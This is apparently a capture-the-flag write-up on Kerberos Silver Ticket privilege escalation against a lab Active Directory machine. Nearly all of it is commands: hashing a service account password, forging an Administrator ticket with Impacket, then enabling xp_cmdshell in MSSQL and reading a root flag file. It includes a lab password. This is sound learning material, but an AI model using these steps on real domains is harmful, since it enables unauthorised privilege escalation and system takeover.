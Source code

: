 # CTF: Silver Ticket - Privilege Escalation

## Attack Scenario

You have a SQL service account and password. You want to access to the SQL with Administrator Service Ticket, so that you can run xp\_cmdshell command to escalate the privilege to SYSTEM.&#x20;

## Practices&#x20;

{% code overflow="wrap" %}
```bash
# Service Account: svc_sql
# Password: REGGIE1234ronnie 

# Create a NTLM hash from a password
iptracej@kali ~/h/Escape> python3
>>> import hashlib
>>> hashlib.new('md4', 'REGGIE1234ronnie '.encode('utf-16le')).digest().hex()
'1443ec19da4dac4ffc953bca1b57b4cf'

# Get Domain SID
getPac.py sequel.htb/sql_svc:REGGIE1234ronnie -targetUser Administrator
sudo ntpdate -u sequel.htb

# Domain SID: S-1-5-21-4078382237-1492182817-2568127209

# Create a Silver Ticket 
# We fake a SPN set to this 
ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -spn Hahahah/dc.sequel.htb Administrator

# Access to MSSQL 
KRB5CCNAME=Administrator.ccache mssqlclient.py -k administrator@dc.sequel.htb

# MSSQL
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
SQL> select x from OpenRowset(BULK 'C:\Users\Administrator\Desktop\root.txt',SINGLE_CLOB) R(x)
```
{% endcode %}
